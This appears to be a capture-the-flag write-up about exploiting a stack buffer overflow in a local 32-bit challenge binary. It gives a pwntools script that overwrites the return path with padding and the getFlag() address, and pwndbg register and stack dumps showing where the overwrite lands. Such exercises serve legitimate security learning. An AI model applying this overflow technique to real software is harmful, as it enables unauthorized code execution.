 
I have tried to call the function ```getFlag()```, using the following code, and put a breakpoint for the address ```0x08049214```
```
from pwn import *
elf = ELF('./challenge.elf')
context(arch=elf.arch,os='linux',log_level='debug')
io = process(elf.path)
gdb.attach(io,gdbscript='''
	b *0x08049214
	n
	''')
offset = 32
getflag = p32(0x08049214)
payload = b'A' * offset + getflag 
io.sendlineafter(b' That\'s it',payload)
io.interactive()
```

From here we can see our ```getflag()``` address into the ```EBX``` and the ```EBP``` with ```0x0``` value. We have to put the address ```0x08049214``` into ```EIP``` to be able to call our function.

```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────
 EAX  0x0
*EBX  0x8049214 (getFlag) ◂— push ebp
 ECX  0xf7e378ac (_IO_stdfile_0_lock) ◂— 0x0
 EDX  0x0
 EDI  0xf7fa8b60 (_rtld_global_ro) ◂— 0x0
 ESI  0xffe71e5c —▸ 0xffe732bd ◂— 'COLORFGBG=0;15'
 EBP  0xffe71d98 ◂— 0x0
 ESP  0xffe71d74 ◂— 0x41414141 ('AAAA')
*EIP  0x80492e2 (main+73) ◂— leave 
─────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────
   0x80492d7  <main+62>                       add    esp, 4
   0x80492da  <main+65>                       mov    eax, 0
   0x80492df  <main+70>                       mov    ebx, dword ptr [ebp - 4]
 ► 0x80492e2  <main+73>                       leave  
   0x80492e3  <main+74>                       ret    
    ↓
   0xf7c24d43 <__libc_start_call_main+115>    add    esp, 0x10
   0xf7c24d46 <__libc_start_call_main+118>    sub    esp, 0xc
   0xf7c24d49 <__libc_start_call_main+121>    push   eax
   0xf7c24d4a <__libc_start_call_main+122>    call   exit                    <exit>
 
   0xf7c24d4f <__libc_start_call_main+127>    call   __nptl_deallocate_tsd                    <__nptl_deallocate_tsd>
 
   0xf7c24d54 <__libc_start_call_main+132>    mov    eax, dword ptr [esp]
──────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ esp 0xffe71d74 ◂— 0x41414141 ('AAAA')
... ↓        7 skipped
────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► 0 0x80492e2 main+73
   1 0xf7c24d43 __libc_start_call_main+115
   2 0xf7c24e08 __libc_start_main+136
   3 0x80490dc _start+44
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```